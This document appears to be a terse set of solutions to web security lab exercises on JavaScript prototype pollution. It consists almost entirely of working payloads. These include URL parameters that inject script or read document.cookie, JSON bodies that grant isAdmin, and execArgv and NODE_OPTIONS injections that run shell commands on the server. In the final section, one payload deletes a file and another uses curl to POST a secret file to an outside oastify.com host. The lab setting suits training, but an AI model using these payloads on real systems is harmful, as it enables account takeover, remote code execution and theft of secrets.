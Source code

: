 ## 1. Client-side prototype pollution via browser APIs

```
/?__proto__[value]=data:,alert(1);

data:[<media type>][;base64],<data>
```

This will also work `data:application/javascript,alert();`, in script src `application/javascript` is set by default.

## 2. DOM XSS via client-side prototype pollution

```
/?__proto__[transport_url]=data:,alert(1);
```

## 3. DOM XSS via an alternative prototype pollution vector


```
/?__proto__.sequence=);alert(
```

## 4. Client-side prototype pollution via flawed sanitization

```
/?__pro__proto__to__[transport_url]=data:,alert()
```

## 5. Scanning non-standard data structures

```html
<script>
    location="https://0ab600fe04a7f8c88152b16900bb004e.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)"
</script>
```


## 6. Privilege escalation via server-side prototype pollution

```json
{
   "address_line_1":"Wiener HQ",
   "address_line_2":"One Wiener Way",
   "city":"Wienerville",
   "postcode":"BU1 1RP",
   "country":"UK",
   "sessionId":"nGHufYaWkCvezfEZYUwGvWrdP6blmQup",
   "__proto__":{
      "isAdmin":true
   }
}
```


## 7. Detecting server-side prototype pollution without polluted property reflection

```json
{
   "address_line_1":"Wiener HQ",
   "address_line_2":"One Wiener Way",
   "city":"Wienerville",
   "postcode":"BU1 1RP",
   "country":"UK",
   "sessionId":"qe4dINvBU5R5Rz0pt9O9ZtGoAa8eWgi8",
   "__proto__":{
      "json spaces":" "
   }
}
```

## 8. Bypassing flawed input filters for server-side prototype pollution

```json
{
   "address_line_1":"Wiener HQ",
   "address_line_2":"One Wiener Way",
   "city":"Wienerville",
   "postcode":"BU1 1RP",
   "country":"UK1",
   "sessionId":"xEwc8d0PHFUSwN3XLikllHwzEpSYqccn",
   "constructor":{
      "prototype":{
         "isAdmin":true
      }
   }
}
```


## 9. Remote code execution via server-side prototype pollution

```json
POST /my-account/change-address HTTP/2

{
   "address_line_1":"Wiener HQ",
   "address_line_2":"One Wiener Way",
   "city":"Wienerville",
   "postcode":"BU1 1RP",
   "country":"UK",
   "sessionId":"5gojfKVIjmRUwaG2znvIFf8LAc1IRPeH",
   "__proto__":{
      "isAdmin":true
   }
}
```

```json
POST /my-account/change-address HTTP/2

{
   "address_line_1":"Wiener HQ",
   "address_line_2":"One Wiener Way",
   "city":"Wienerville",
   "postcode":"BU1 1RP",
   "country":"UK",
   "sessionId":"5gojfKVIjmRUwaG2znvIFf8LAc1IRPeH",
   "__proto__":{
      "execArgv":[
         "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
      ]
   }
}
```

```json
POST /admin/jobs HTTP/2

{
   "csrf":"BGejyzzug1SH0LzmFsdzdeRlQaOuvAHQ",
   "sessionId":"5gojfKVIjmRUwaG2znvIFf8LAc1IRPeH",
   "tasks":[
      "db-cleanup",
      "fs-cleanup"
   ]
}
```


## 10. Exfiltrating sensitive data via server-side prototype pollution

Detection in case eval fails

```json
{
   "address_line_1":"Wiener HQ",
   "address_line_2":"One Wiener Way",
   "city":"Wienerville",
   "postcode":"BU1 1RP",
   "country":"UK",
   "sessionId":"bNZesQjFZZawevt71JvHjMzpSKwzbRaA",
   "__proto__":{
      "argv0":"node",
      "shell":"node",
      "NODE_OPTIONS":"--inspect=6bi8v0nohyji8gont93nhgi3augm4gs5.oastify.com"
   }
}
```

```json
{
   "address_line_1":"Wiener HQ",
   "address_line_2":"One Wiener Way",
   "city":"Wienerville",
   "postcode":"BU1 1RP",
   "country":"UK",
   "sessionId":"ZdGdRt2Y5f3hDOgpIx2IwlKcSX0L5tud",
   "__proto__":{
      "shell":"/proc/self/exe",
      "argv0":"console.log(require('child_process').execSync('curl oldq5ix6rgt0iyy53rd5ryslkcq5ew2l.oastify.com').toString())//",
      "NODE_OPTIONS":"--require /proc/self/cmdline"
   }
}
```


```json
{
   "address_line_1":"Wiener HQ",
   "address_line_2":"One Wiener Way",
   "city":"Wienerville",
   "postcode":"BU1 1RP",
   "country":"UK",
   "sessionId":"ZdGdRt2Y5f3hDOgpIx2IwlKcSX0L5tud",
   "__proto__":{
      "shell":"/proc/self/exe",
      "argv0":"console.log(require('child_process').execSync('curl -X POST http://oldq5ix6rgt0iyy53rd5ryslkcq5ew2l.oastify.com -d \"$(cat ./secret)\"').toString())//",
      "NODE_OPTIONS":"--require /proc/self/cmdline"
   }
}
```
